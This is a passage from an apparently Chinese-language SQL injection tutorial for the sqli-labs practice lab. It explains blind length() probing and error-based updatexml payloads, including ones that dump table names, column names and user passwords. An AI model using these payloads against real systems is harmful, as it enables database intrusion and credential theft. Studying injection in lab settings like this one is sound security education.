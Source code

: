 ### <b>3.length()函数</b>

length(string)函数是否返回一个字符串的长度。

参数string ：为需要输出其长度的字符串。

例：使用length函数判断“qwertyui”长度

![upload successful](./images/pasted-554.png)

由此可以构造<code>payload：http://127.0.0.1/sql/Less-8/?id=1' and length(database())=8 --+</code>

![upload successful](./images/pasted-555.png)

# 报错注入
报错注入是sql注入的一种

利用前提：页面上没有显示位，但是需要输出执行错误信息。比如mysql_error()

优点：不需要显示位

缺点：需要输出mysql_error()的报错信息

## updatexml方式
{% codeblock lang:PHP %}
1' and updatexml(1,concat('!',database(),'!'),1)

1' and updatexml(1,concat('!',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'!'),1)

updatexml(1,concat('!',(select column_name from information_schema.columns where table_schema='security' and table_name='emails' limit 0,1),'!'),1)

updatexml(1,concat('!',(select group_concat(username,'#',password) from users limit 0,1),'!'),1)
